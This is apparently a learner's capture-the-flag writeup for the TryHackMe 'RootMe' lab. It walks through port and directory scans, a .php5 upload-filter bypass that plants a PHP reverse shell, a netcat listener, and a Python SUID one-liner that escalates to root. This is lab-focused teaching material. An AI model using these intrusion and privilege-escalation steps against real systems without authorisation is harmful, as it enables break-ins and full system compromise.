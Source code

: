 # RootMe Writeup (TryHackMe)

## Enumeration

Scanned the target using:

```bash
sudo nmap <target> -sS -T4 -A -oN init_scan
```

![2025-05-07_12-07](https://github.com/user-attachments/assets/3b8590c3-3019-4e72-bc2a-8d6d20ba7774)

Open ports: `22`, `80`

## Web Enumeration

Used Gobuster to look for hidden directories:

```bash
gobuster dir -u http://<target-ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q
```

![2025-05-07_12-12](https://github.com/user-attachments/assets/b2f7b77d-86ab-4e40-be99-1cc47f85e780)

Found `/uploads` and `/panel`.

## File Upload Exploit

The `/panel` directory allowed uploading files, accessible later via `/uploads`.

![2025-05-07_12-14_1](https://github.com/user-attachments/assets/cbcdef1f-4988-45d3-8263-a85ec343143e)
![2025-05-07_12-14](https://github.com/user-attachments/assets/1d9c409e-424e-438a-a575-7afc3eeb6569)

Tried uploading a PHP reverse shell. It rejected `.php`, `.php.gif`, and `.php.jpg` due to image validation errors.

![2025-05-07_12-21](https://github.com/user-attachments/assets/f10ee265-453d-4bba-9116-ea6f09be5b42)
![2025-05-07_12-50](https://github.com/user-attachments/assets/f6fbbfc3-1821-4635-aad6-9ee591a1ca4c)

Found `.php5` as a bypass method, and it worked. Uploaded the reverse shell as `.php5`, gained reverse shell.

![2025-05-07_13-00](https://github.com/user-attachments/assets/ced59dd5-b435-4f60-b81e-6e1b88068689)
![2025-05-07_12-58](https://github.com/user-attachments/assets/18b90b5b-bfd3-44b3-a35a-8a39d19a4f3f)

Set up Netcat listener:

```bash
nc -lvnp 7777
```

![2025-05-07_13-01](https://github.com/user-attachments/assets/2dc89d7d-4752-44e6-a17f-aaec10a2ca6f)

Upgraded shell using Python:

```bash
which python
which python3
python -c 'import pty; pty.spawn("/bin/bash")'
```

![2025-05-07_13-03](https://github.com/user-attachments/assets/98a656b6-e3a2-4602-a1a8-b5c90bdf84bb)

## User Flag

Located the user flag:

```bash
find / -type f -name user.txt 2>/dev/null
```

![2025-05-07_13-09](https://github.com/user-attachments/assets/2360d452-ca6f-4f08-9713-05fed3668721)

Found at: `/var/www/user.txt`

## Privilege Escalation

Searched for SUID binaries:

```bash
find / -type f -perm -04000 2>/dev/null
```

![2025-05-07_13-12](https://github.com/user-attachments/assets/16c9ae50-fcdb-4204-bb81-f6f3e6da1cba)

Found `/usr/bin/python` with SUID set.

Used GTFOBins trick:

![2025-05-07_13-13](https://github.com/user-attachments/assets/74f94857-4ef3-4925-be3d-f2accd3ab6b7)

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![2025-05-07_13-14](https://github.com/user-attachments/assets/64f56252-548d-467c-b596-8ce1a922af1a)

Got root shell.

Located the root flag:

```bash
find / -type f -name root.txt 2>/dev/null
```

![2025-05-07_13-15](https://github.com/user-attachments/assets/b3cfa837-37fe-4be0-b26d-12d610b6088f)

Found at: `/root/root.txt`

## Conclusion

![2025-05-07_13-15_1](https://github.com/user-attachments/assets/9cdf2f15-332a-4895-84ae-3b1b44b24085)

This challenge covered file upload vulnerabilities, reverse shell techniques, and classic SUID exploitation.

* Found hidden directories with Gobuster
* Bypassed file upload restrictions with `.php5`
* Used Python SUID binary for root escalation

A solid exercise in understanding how insecure file upload mechanisms and misconfigured SUID binaries can be leveraged for full system compromise.
